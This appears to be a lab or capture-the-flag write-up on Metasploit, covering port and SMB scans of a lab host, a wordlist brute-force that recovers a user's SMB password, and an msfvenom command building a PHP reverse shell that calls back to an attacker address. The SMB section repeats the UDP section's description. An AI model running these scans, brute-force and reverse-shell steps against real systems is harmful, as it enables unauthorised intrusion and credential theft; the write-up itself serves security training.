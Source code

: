 # 🕵️ Metasploit: Exploitation – Writeup

# Target Info
- IP: 10.10.179.2

# Task 2
## 🧩 Step 1: Scanning

Using `msfconsole`:

search portscan

We list potential port scanning modules available on the target system using the search portscan command
But we can use NMAP to better perform port scanning, like follow:

nmap -sS 10.10.179.2

PORT    STATE   SERVICE
21/tcp  open    ftp
22/tcp  open    ssh
139/tcp open    netbios-ssn
445/tcp open    microsoft-ds
8000/tcp open   http-alt
MAC Address: 02:95:48:A4:43:C3 (Unknown)

---

### UDP service identification 

The scanner/discovery/udp_sweep module will allow you to quickly identify services running over the UDP (User Datagram Protocol). As you can see below, this module will not conduct an extensive scan of all possible UDP services but does provide a quick way to identify services such as DNS or NetBIOS.

Using `scanner/discovery/udp_sweep`

set RHOSTS 10.10.179.2
run

Discovered NetBIOS on 10.10.179.2:137 (ACME IT SUPPORT)

---

### SMB scans 

The scanner/discovery/udp_sweep module will allow you to quickly identify services running over the UDP (User Datagram Protocol). As you can see below, this module will not conduct an extensive scan of all possible UDP services but does provide a quick way to identify services such as DNS or NetBIOS.

Using `scanner/smb/smb_version`

set RHOSTS 10.10.179.2
run

SMB Detected 10.10.179.2:445
Host is running version 6.1.0 (Unknown OS)

---

## Exploitation

### What is running on port 8000?
We know from previous scan that port 8000 is open to http-alt service
Using http_version msf module we can get its version

set RHOSTS 10.10.179.2
set RPORT 8000
run

And we get the result

10.10.179.2:8000 webfs/1.21

---

### What is 'penny' user's SMB password?
Search on msf smb_login

use scanner/smb/smb_login
set RHOSTS 10.10.179.2
set SMBUser penny
set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
run

Success: '.\penny:leo1234'

# Task 6
Using MSFVenom set the payload (a php executable)

msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php

Use MultiHandler exploit to receive incoming connection
